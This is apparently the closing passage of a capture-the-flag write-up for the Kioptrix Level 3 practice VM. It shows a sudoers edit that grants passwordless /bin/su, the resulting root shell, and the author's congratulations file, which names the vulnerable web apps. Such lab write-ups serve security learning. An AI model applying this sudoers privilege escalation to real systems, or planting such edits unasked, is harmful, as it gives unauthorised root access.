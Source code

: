 Oh, no wonder it didn't work. su is under `/bin/su`, not `/usr/bin/su`...  
Final edit makes `/etc/sudoers` file contain:  
```
loneferret ALL=NOPASSWD: /bin/su, /usr/local/bin/ht  
```

```console
loneferret@Kioptrix3:~$ sudo /bin/su  
root@Kioptrix3:/home/loneferret# whoami  
root  
```    
  
It worked! We got root! Where is our flag?  

```console
root@Kioptrix3:/home/loneferret# cd /root  
root@Kioptrix3:~# ls -al  
total 52  
drwx------  5 root root  4096 2011-04-17 08:59 .  
drwxr-xr-x 21 root root  4096 2011-04-11 16:54 ..  
-rw-------  1 root root     9 2011-04-18 11:49 .bash_history  
-rw-r--r--  1 root root  2227 2007-10-20 07:51 .bashrc  
-rw-r--r--  1 root root  1327 2011-04-16 08:13 Congrats.txt  
drwxr-xr-x 12 root root 12288 2011-04-16 07:26 ht-2.0.18  
-rw-------  1 root root   963 2011-04-12 19:33 .mysql_history  
-rw-------  1 root root   228 2011-04-18 11:09 .nano_history  
-rw-r--r--  1 root root   141 2007-10-20 07:51 .profile  
drwx------  2 root root  4096 2011-04-13 10:06 .ssh  
drwxr-xr-x  3 root root  4096 2011-04-15 23:30 .subversion  
root@Kioptrix3:~# cat Congrats.txt   
Good for you for getting here.  
Regardless of the matter (staying within the spirit of the game of course)  
you got here, congratulations are in order. Wasn't that bad now was it.  
  
Went in a different direction with this VM. Exploit based challenges are  
nice. Helps workout that information gathering part, but sometimes we  
need to get our hands dirty in other things as well.  
Again, these VMs are beginner and not intented for everyone.   
Difficulty is relative, keep that in mind.  
  
The object is to learn, do some research and have a little (legal)  
fun in the process.  
  
  
I hope you enjoyed this third challenge.  
  
Steven McElrea  
aka loneferret  
http://www.kioptrix.com  
  
  
Credit needs to be given to the creators of the gallery webapp and CMS used  
for the building of the Kioptrix VM3 site.  
  
Main page CMS:   
http://www.lotuscms.org  
  
Gallery application:   
Gallarific 2.1 - Free Version released October 10, 2009  
http://www.gallarific.com  
Vulnerable version of this application can be downloaded  
from the Exploit-DB website:  
http://www.exploit-db.com/exploits/15891/  
  
The HT Editor can be found here:  
http://hte.sourceforge.net/downloads.html  
```